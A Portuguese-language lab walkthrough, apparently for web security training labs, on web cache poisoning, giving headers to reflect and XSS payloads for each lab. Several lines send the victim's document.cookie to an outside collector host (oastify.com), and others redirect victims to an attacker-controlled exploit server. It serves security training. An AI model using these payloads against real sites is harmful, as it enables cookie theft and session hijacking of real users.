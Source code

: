# Web Cache Poisoning

Se você ver o header `X-Cache: hit` na resposta e a existência do arquivo `/resources/js/tracking.js`, provavelmente a aplicação está vulnerável a Web Cache Poisoning.

A primeira coisa a se testar quando ver esses recursos, é tentar refletir o domínio do exploit server atráves desses headers:
```
Host
X-Forwarded-Host
X-Host
X-Forwarded-Server
```

> [!IMPORTANT]
> Envie as requisições para envenenar o cache algumas vezes, pois o envenenamento pode não funcionar nas primeiras tentativas.

Se você conseguiu refletir o exploit server na resposta, vá para o servidor, mude o nome do arquivo para `/resources/js/tracking.js` e coloque um payload para roubar o cookie da vítima no Body.
```
document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```

<br>

## Laboratórios

**Web Cache Poisoning with an Unkeyed Header**

Nesse caso você pode usar a exploração indicada acima ou colocar o payload direto no header.
```
X-Forwarded-Host: test.com"></script><script>alert(document.cookie)</script>//
```

<br>
<br>

**Web Cache Poisoning with an Unkeyed Cookie**
```
fehost=someString"-alert(1)-"someString
```

<br>
<br>

**Web Cache Poisoning with Multiple Headers**

Use a extensão Param Miner para identificar o header `X-Forwarded-Scheme`. Qualquer outro valor diferente de HTTPS vai retornar status 302 com um header `Location`.

Use esse header com o header `X-Forwarded-Host` para redirecionar o usuário para seu exploit server.
```
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0ab300bf03adb37181e4d360010c007b.exploit-server.net
```

<br>
<br>

**Targeted Web Cache Poisoning using an Unknown Header**

Use a extensão Param Miner para ver que o header **X-Host** está sendo refletido em:
```
<script type="text/javascript" src="//example.com/resources/js/tracking.js">
```

Observe que o header Vary especifica o User-Agent, então precisamos saber o browser da vítima.

A feature de comentário permite tags HTML, então podemos usar isso para enumerar o navegador dela.
```
<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
```

Agora podemos adicionar esse User-Agent na request para envenenar o cache corretamente.
```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: AGENTE USADO PELA VÍTIMA
X-Host: attacker.com
```

<br>
<br>

**Web Cache Poisoning via an Unkeyed Query String**

Observe que você ainda recebe a resposta como cacheada ao incluir parâmetros na URL, ou seja, eles não fazem parte do cache key.

Adicione um parâmetro que quebre a string refletida e injete um XSS:
```
GET /?evil='/><script>alert(1)</script>
```

Versão adaptada:
```
GET /?evil='/><script>document.location='https://c2fsr4s3dcy11k6m80vnarmyjppgd7gv5.oastify.com/?cookies';</script>
```

<br>
<br>

**Web Cache Poisoning via an Unkeyed Query Parameter**

Observe que você recebe um cache miss toda vez que muda um parâmetro da URL.

Utilize a função "Guess GET parameters" do Param Miner para identificar que o parâmetro `utm_content` é aceito pela aplicação.

Confira que esse parâmetro não é um cache key e insira o payload para quebrar a string refletida:
```
GET /?utm_content='/><script>alert(1)</script>
```

<br>
<br>

**Parameter Cloaking**
```
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```

<br>
<br>

**Web Cache Poisoning via a Fat GET Request**

Note que você pode mudar o nome da função a ser chamado passando o parâmetro `callback` usando uma Fat Request, mas a cache key ainda será o parâmetro da URL.
```
# REQUISIÇÃO
GET /js/geolocate.js?callback=setCountryCookie
…
callback=arbitraryFunction

# RESPOSTA
HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})
```

<br>
<br>

**URL Normalization**

No Burp Repeater, navegue para um diretório inexistente como /random e observe que o caminho requisitado é refletido na mensagem de erro.

Adicione o payload:
```
GET /random</p><script>alert(1)</script><p>foo
```

Observe que se você requisitar esse caminho direto pelo navegador, o payload não execute porque está encodado em URL.

No Burp Repeater, envenene o cache com o seu payload e imediatamente carregue a URL no navegador.

Dessa vez, o `alert()` foi executado porque o payload encodado pelo navegador foi decodado pelo cache, causando um cache hit com a request anterior.

<br>

### Outros

**Poison Ambiguous Request**
```
Host: TARGET.net
Host: exploit.net
```
